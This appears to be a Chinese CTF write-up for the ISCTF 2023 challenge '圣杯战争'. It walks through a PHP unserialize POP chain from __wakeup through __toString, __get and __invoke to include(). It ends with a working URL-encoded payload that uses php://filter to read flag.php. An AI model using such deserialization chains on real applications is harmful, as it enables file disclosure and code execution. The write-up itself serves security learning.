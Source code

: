 ```yaml
---
title: ISCTF wp
date: 2023-11-25 14:46:57
tags: PHP 反序列化
description: ISCTF 圣杯战争 wp
---
```

# 圣杯战争
## 解题思路
```php
<?php
class artifact{
    public $excalibuer;
    public $arrow;
    public function __toString(){
        echo "为Saber选择了对的武器!<br>";
        return $this->excalibuer->arrow;
    }
}

class prepare{
    public $release;
    public function __get($key){
        $functioin = $this->release;
        echo "蓄力!咖喱棒！！<br>";
        return $functioin();
    }
}
class saber{
    public $weapon;
    public function __invoke(){
        echo "胜利！<br>";
        echo $this->weapon;
        include($this->weapon);
    }
}
class summon{
    public $Saber;
    public $Rider;

    public function __wakeup(){
        echo "开始召唤从者！<br>";
        echo $this->Saber;
    }
}

if(isset($_GET['payload'])){ 
    unserialize($_GET['payload']); 
}
?>

```
在`suber`class中存在文件上传漏洞，但是需要调用`__invoke`方法才能触发，即需要对该class进行函数调用（`suber()`）。由`unserialize`搜索反序列化如何触发该漏洞

观察代码，思考如何利用`prepare` class 中的`$functioin`函数进行上述漏洞所在函数的触发,即调用 `__get`魔术方法

> 调用 `__get`魔术方法条件为：当调用或设置一个类及其父类方法中未定义或者私有的属性时这个方法会被触发。
观察`prepare` class 中的属性均为 public，思考如何调用未定义属性

观察`artifact` class 中的代码，考虑通过调用该 class 中的`__toString`函数，在该函数中存在`$this->excalibuer->arrow`，而`excalibuer`是 public 成员，所以通过设置该成员为`prepare`，在调用`__toString`函数时，即可完成调用未定义属性的操作。

接下来思考如何调用`__toString`魔术方法。
> PHP 5.2.0 之前，toString () 方法只有在直接使用于 echo 或 print 时才能生效。PHP 5.2.0 之后，则可以在任何字符串环境生效（例如通过 printf ()，使用 % s 修饰符），但不能用于非字符串环境（如使用 % d 修饰符）。自 PHP 5.2.0 起，如果将一个未定义 toString () 方法的对象转换为字符串，会产生 E_RECOVERABLE_ERROR 级别的错误。

要利用echo 调用`__toString`魔术方法，观察代码中只有`summon`class中 echo 了`$this->Saber`，搜索如何调用`__wakeup`魔术方法。

> 当我们执行 serialize() 和 unserialize() 对对象进行操作是时，会分别调用`__sleep`和`__wakeup`这两个方法。

由此，调用链构造完成。
使用上述调用链对summon进行序列化：
```php
$mysummon=new summon();
$myartifact=new artifact();
$myprepare=new prepare();
$mysaber=new saber();
$mysaber->weapon='php://filter/read=convert.base64-encode/resource=flag.php';
$mysummon->Saber=$myartifact;
$myartifact->excalibuer=$myprepare;
$myprepare->release=$mysaber;
$a=serialize($mysummon);
echo $a;
```
之后构造 poc，注意 poc 的内容要进行 url 编码：
```
GET /?payload=O:6:%22summon%22:2:%7Bs:5:%22Saber%22%3BO:8:%22artifact%22:2:%7Bs:10:%22excalibuer%22%3BO:7:%22prepare%22:1:%7Bs:7:%22release%22%3BO:5:%22saber%22:1:%7Bs:6:%22weapon%22%3Bs:57:%22php:%2F%2Ffilter%2Fread=convert.base64-encode%2Fresource=flag.php%22%3B%7D%7Ds:5:%22arrow%22%3BN%3B%7Ds:5:%22Rider%22%3BN%3B%7D%0A
 HTTP/1.1
Host: 43.249.195.138:21234
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://43.249.195.138:21234/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: td_cookie=1749215879
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
```


